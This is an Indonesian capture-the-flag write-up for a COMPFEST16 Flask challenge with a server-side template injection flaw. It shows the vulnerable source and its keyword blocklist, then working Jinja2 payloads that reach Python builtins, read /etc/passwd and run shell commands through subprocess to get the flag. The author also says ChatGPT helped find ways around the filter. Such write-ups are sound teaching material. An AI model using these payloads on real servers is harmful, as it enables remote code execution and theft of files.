







#CTF #COMPFESTHackingClass #COMPFEST16 #WebExploitation #SSTI #WriteUp  

>**Flag:** `COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}`



### Write Up:
Tampilan awal website ketika dibuka.


Jika kita isi input, maka akan berisi kalimat sambutan dan hasil input yang di generate secara random pada variabel `GREETINGS` pada source code yang diberikan.


Berikut adalah source code yang diberikan pada soal.
```python
from flask import Flask, render_template, request, render_template_string
import random

app = Flask(__name__)
@app.route("/", methods=["GET"])

def home():
    if request.method == "GET":
        GREETINGS = ["Hope you have a wonderful day!",
                     "Wishing you a fantastic day ahead!",
                     "May your day be filled with joy and positivity!",
                     "Sending you positive energy for a great day!"
                     "COMPFEST16{placeholder}"]

        if request.args.get('name') :
            if all(c not in request.args.get('name') for c in ['%', 'class', 'mro', 'attr', 'self', 'read']):
                result = render_template_string(f"Hello {request.args.get('name')}! {GREETINGS[random.randint(0, len(GREETINGS)-2)]}")
                return render_template("index.html", **{"data": result})
            else:
                return render_template("index.html", **{"data": "nu uh >:("})
        return render_template("index.html")

if __name__ == "__main__":
	app.run("0.0.0.0", port=8080, debug=True)
```

Informasi yang bisa kita dapatkan dari source code diatas adalah input yang kita masukkan tidak boleh mengandung karakter `%`, `class`, `mro`, `attr`, `self`, `read`. Hal ini sebagai bentuk pencegahan dari kerentanan website berupa [[-Server Side Template Injection (SSTI)]].

Hal pertama yang harus kita identifikasi adalah jenis kerentanan SSTI apa yang ada pada website ini yang bisa dilihat dari gambar berikut. Setiap hasil dari operasi yang benar akan mengikuti garis hijau dan jika hasil operasi salah akan mengikuti garis merah.


Mulai cek dari `{7 * 7}`



Hasil yang keluar bukanlah `49` melainkan `{7 * 7}`, jadi kita bisa lanjutkan dengan `{{7 * 7}}`.


Hasil yang keluar adalah `49`, kita bisa melanjutkannya dengan mengecek `{{7*'7'}}`


Dengan ini kita mengidentifikasi jenis dari SSTI ini antara Jinja2 dan Twig.

Cari payload yang mendukung untuk mendapatkan flag. Disini saya menggunakan [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Kita akan berusaha untuk dapat mengakses directory dari server untuk menemukan flag.

Kita akan menggunakan `__globals__` untuk mengakses dictionary dari variabel global dan `__builtins__` untuk dapat menggunakan fungsi-fungsi built-in python.

Awalnya saya mencoba untuk mengubah karakter yang tidak boleh digunakan menjadi hex dan memasukkanya ke dalam payload.
```
{{0x730x650x6c0x66.__init__.__globals__.__builtins__.__import__('os').popen('id').0x720x650x610x64()}}
```
yang mempresentasikan
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Tetapi, malah mendapati error. Namun, dari sini kita bisa mendapatkan jawaban bila jenis SSTI nya adalah Jinja2.


Setelah membaca payload lebih lanjut di Payloads All The Things, saya menemukan payload yang hampir tidak mengandung karakter yang dilarang pada website diatas.
```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```
Disini masih terdapat karakter `read` yang dilarang pada website. Dengan memanfaatkan [ChatGPT](https://chat.openai.com) untuk memberikan alternatif dari payload diatas untuk mengakses directory server.

Berikut adalah percobaan pertama untuk mengetes apakah payload dapat berjalan atau error.
```
{{get_flashed_messages.__globals__.__builtins__.get('id',' ')}}
```


Mantap, payload tidak error dan mengeluarkan output `&lt;built-in function id&gt;` atau `<built-in function id>`. Selanjutnya kita hanya perlu mencari command yang dapat menampilkan isi directory. Dalam hal ini, saya masih memanfaatkan ChatGPT untuk memberikan alternatif.

Percobaan pertama adalah berikut:
```
{{get_flashed_messages.__globals__.__builtins__.exec('ls')}}
```
Tetapi gagal atau error. 

Pada percobaan kedua, saya berhasil menampilkan isi dari directory dengan menambahkan `__import__()` dan `listdir()`
```
{{get_flashed_messages.__globals__.__builtins__.__import__('os').listdir('/')}}
```

Karena `listdir()` hanya menampilkan isi dari directory dan tidak bisa membuka suatu file, saya mencari potongan payload baru.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('ls',shell=True)}}
```
Menurut Chat GPT,
- `get_flashed_messages` adalah sebuah fungsi dalam Flask yang digunakan untuk mengambil pesan yang disimpan sementara (flashed messages). Dalam konteks ini, fungsi ini digunakan untuk mengakses atribut `__globals__` dari fungsi tersebut.\
- `__globals__` adalah atribut dari fungsi Python yang mengembalikan kamus (dictionary) dari semua variabel global yang tersedia.
- `__builtins__` berisi semua fungsi bawaan (built-in) dari Python seperti print, len, dll.
- `__import__('subprocess')` akan mengimpor modul `subprocess`, yang digunakan untuk menjalankan perintah shell di sistem operasi. Modul inilah yang menjadi kunci kita pada kali ini.
- `subprocess.check_output('<cmd>', shell=True)` adalah sebuah metode dalam modul `subprocess` yang menjalankan perintah shell yang diberikan dan mengembalikannya menjadi string dan `shell=True` memungkinkan perintah ini dijalankan dalam shell, yang memungkinkan penggunaan perintah.


Setelah mencoba membuka dan mencari ke `etc/passwd`, `/` dan `/home`. Saya teringat dengan salah satu isi dari variabel `GREETINGS` pada source code yang telah diberikan mengandung string berikut `"COMPFEST16{placeholder}"`. Jadi kita akan mencoba mengecek `main.py`.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('cat main.py',shell=True)}}
```


FLAG sudah ditemukan, untuk mempermudah membaca kita bisa menggunakan `cat main.py | grep "COMPFEST16"`.


